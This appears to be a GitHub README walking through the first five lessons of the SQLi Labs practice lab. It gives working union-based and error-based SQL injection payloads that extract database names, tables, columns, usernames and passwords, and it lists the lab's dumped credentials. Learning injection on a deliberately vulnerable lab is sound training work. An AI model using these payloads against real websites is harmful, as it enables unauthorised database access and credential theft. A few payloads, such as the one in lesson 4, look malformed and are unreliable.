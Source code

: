 # ***SQLi Labs***

First we have to set up sqli labs,For that we can use the following commands

install apache2 webserver by > ````sudo apt install apache2````

install mysql by > ````sudo apt-get install mysql-srver````

install php7

git clone the repository of the lab and start all the services.

## ***LESS1***

The website says,Please input the ID as parameter with numeric value.
So we can input ```?id=1 or 2,3,4,5.....```
when we put ```'``` we get sql error 
thus we have a sql injection
we can comment ou the rest of the query by ```-- -``` or other comments in sql language.
We can dump contents

 ## ***payloads to dump***
 
 We can get version of the server by using ```/?id=-1' union select 1,version(),3--+```
 We can get databasename of the server by using ```/?id=-1' union select 1,database(),3--+  databasename = security```
 Going to the terminal and going to mysql. If we type ``show databases;`` it shows databases
Then We can see security which is our database name. We can find more details ``use security`` with this sql command go into the database.
 Using ``show tables;`` we can see the tables. For looking into the tables ``desc emails;`` and so on...
 
## ***LESS2***
The website says,Please input the ID as parameter with numeric value.
This time when we input use ```?id=1'-- -``` doesn't work.
So we put ``'`` before the 1 and change it as ```?id='1'``` as payload.
Now we can comment it ```?id='1' -- - ```
Now we can dump contents using the payloads.

## ***payloads to dump***

To find column_name ```?id='-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users'--+```
We have more payloads that can we do and get contents of database

## ***LESS3***

The website says,Please input the ID as parameter with numeric value.
This time when we input use ```?id=1'-- - nor ?id='1'-- -``` doesn't work.
So we put ``)`` before the ``'`` and change it as ```?id=1)'``` as payload.
No we can comment it ```?id=1)'-- -```
Now we can dump contents using payloads

## ***payloads to dump***
to find data ```/?id=-1') union select 1,group_concat(username),3 from users```
We have more payloads that can we do and get contents of database

## ***LESS4***

The website says,Please input the ID as parameter with numeric value.
We have to use ``') '`` as payload 
Now can comment it using ```?id=1' ")-- -```
Now we can dump contents using payloads

## ***payloads to dump ***

```?id=-1' ")-- - union select 1,group_concat(username),group_concat(password) from users```
We have more payloads that can we do and get contents of database.

## ***LESS5***

In this challenge we don't get any response form the databse directy to the browser
but we get the error when we break the query,so we can dump the database through the error
we can use ``rand(),floor(),count()`` to get error

## ***payloads to dump***

This will get database ```/?id=1' AND (select 1 from(select count(*),concat((select database()),floor(rand()*2))a from information_schema.tables group by a)b)-- -```

to get table names ```/?id=1' AND (select 1 from(select count(*),concat((select table_name from information_schema.tables where table_schema=database() limit 0,1),floor(rand()*2))a from information_schema.tables group by a)b)-- -```

to get columns ```/?id=1' AND (select 1 from(select count(*),concat((select column_name from information_schema.columns where table_name='emails' limit 0,1),floor(rand()*2))a from information_schema.tables group by a)b)-- -```

# ***contents of database***

1.databasename = security

2.tables = emails,referers,uagents,users

3.columns = CURRENT_CONNECTIONS,TOTAL_CONNECTIONS,USER,id,password,username

4.usernames = Dumb,Angelina,Dummy,secure,stupid,superman,batman,admin,admin1,admin2,admin3,dhakkan,admin4
password = Dumb,I-kill-you,p@ssword,crappy,stupidity,genious,mob!le,admin,admin1,admin2,admin3,dumbo,admin4
